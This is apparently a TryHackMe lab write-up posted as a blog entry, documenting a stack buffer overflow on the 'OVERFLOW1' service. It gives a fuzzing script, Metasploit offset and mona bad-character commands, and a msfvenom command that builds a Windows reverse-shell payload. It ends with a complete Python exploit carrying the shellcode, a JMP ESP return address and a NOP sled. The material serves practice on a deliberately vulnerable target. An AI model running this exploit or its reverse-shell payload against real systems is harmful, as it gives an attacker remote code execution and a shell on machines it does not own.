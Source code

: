```yaml
---
layout : post 
title: Overflow1
image : OverFlow1.png
author: TryHackme
date: 2021-04-29 01:43 +0530

tags: [BufferFlow]
---
```


# Fuzzing

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.142.100"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/Fuzz.png)

# BadCharacters


> note only open the application through debugger only 

bites mentioned the crash bites and add 400 for safe side (payload)

eip 

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```
Here YOu can find the offset using `mona` or using the `msf_pattern_offset`

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/esi_eip.png)

!mona findmsp -distance 2400

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/b's.png)

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6F43396E
[*] Exact match at offset 1978
```

```python
#update the offset with value
#inserting the badcharecter inside payload
#now retn will be four B's at retn value 

import socket

ip = "10.10.202.172"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "BBBB"
padding = "" 
payload =  "\x01\x02\x03\x04\x05\x06\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
#BADCHAR ARE \x00\x07\x0\x2e\xa0 

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
**Findind the BadCharacter**

>creating the bytearray

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/monobytearray.png)

!mona bytearray -b "\x00"

with ESP address

!mona compare -f C:\Program Files\Immunity Inc\Immunity Debugger\bytearray.bin -a 0185FA30

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/monaCompare.png)

now checking the everybadchar , because some times one bad char maycause the otherbadchar 

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/x07.png)

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/x2e.png)

badchars can affect the next byte as well!

findind jump esp regisiter

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/jmpesp.png)

!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"

**625011AF**

finally got to sortout the badcharacter

![]({{site.baseurl}}/img/tryhackme/BOF/Overflow1/bachar.png)

# Exploit 

creating the shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.202.83 LPORT=5555 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```

```python

import socket

ip = "10.10.202.172"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn =  "\xaf\x11\x50\x62" #625011AF
padding = "\x90" * 16 
payload =("\xd9\xcf\xb8\x3d\xc6\x1c\xb8\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x83\xee\xfc\x31\x46\x13\x03\x7b\xd5\xfe\x4d\x7f\x31\x7c"
"\xad\x7f\xc2\xe1\x27\x9a\xf3\x21\x53\xef\xa4\x91\x17\xbd\x48"
"\x59\x75\x55\xda\x2f\x52\x5a\x6b\x85\x84\x55\x6c\xb6\xf5\xf4"
"\xee\xc5\x29\xd6\xcf\x05\x3c\x17\x17\x7b\xcd\x45\xc0\xf7\x60"
"\x79\x65\x4d\xb9\xf2\x35\x43\xb9\xe7\x8e\x62\xe8\xb6\x85\x3c"
"\x2a\x39\x49\x35\x63\x21\x8e\x70\x3d\xda\x64\x0e\xbc\x0a\xb5"
"\xef\x13\x73\x79\x02\x6d\xb4\xbe\xfd\x18\xcc\xbc\x80\x1a\x0b"
"\xbe\x5e\xae\x8f\x18\x14\x08\x6b\x98\xf9\xcf\xf8\x96\xb6\x84"
"\xa6\xba\x49\x48\xdd\xc7\xc2\x6f\x31\x4e\x90\x4b\x95\x0a\x42"
"\xf5\x8c\xf6\x25\x0a\xce\x58\x99\xae\x85\x75\xce\xc2\xc4\x11"
"\x23\xef\xf6\xe1\x2b\x78\x85\xd3\xf4\xd2\x01\x58\x7c\xfd\xd6"
"\x9f\x57\xb9\x48\x5e\x58\xba\x41\xa5\x0c\xea\xf9\x0c\x2d\x61"
"\xf9\xb1\xf8\x26\xa9\x1d\x53\x87\x19\xde\x03\x6f\x73\xd1\x7c"
"\x8f\x7c\x3b\x15\x3a\x87\xac\x10\xb2\x4d\x7f\x4d\xc6\x51\x95"
"\x3e\x4f\xb7\xff\x50\x06\x60\x68\xc8\x03\xfa\x09\x15\x9e\x87"
"\x0a\x9d\x2d\x78\xc4\x56\x5b\x6a\xb1\x96\x16\xd0\x14\xa8\x8c"
"\x7c\xfa\x3b\x4b\x7c\x75\x20\xc4\x2b\xd2\x96\x1d\xb9\xce\x81"
"\xb7\xdf\x12\x57\xff\x5b\xc9\xa4\xfe\x62\x9c\x91\x24\x74\x58"
"\x19\x61\x20\x34\x4c\x3f\x9e\xf2\x26\xf1\x48\xad\x95\x5b\x1c"
"\x28\xd6\x5b\x5a\x35\x33\x2a\x82\x84\xea\x6b\xbd\x29\x7b\x7c"
"\xc6\x57\x1b\x83\x1d\xdc\x3b\x66\xb7\x29\xd4\x3f\x52\x90\xb9"
"\xbf\x89\xd7\xc7\x43\x3b\xa8\x33\x5b\x4e\xad\x78\xdb\xa3\xdf"
"\x11\x8e\xc3\x4c\x11\x9b")

  
#BADCHAR ARE \x00\x07\x0\x2e\xa0 

postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
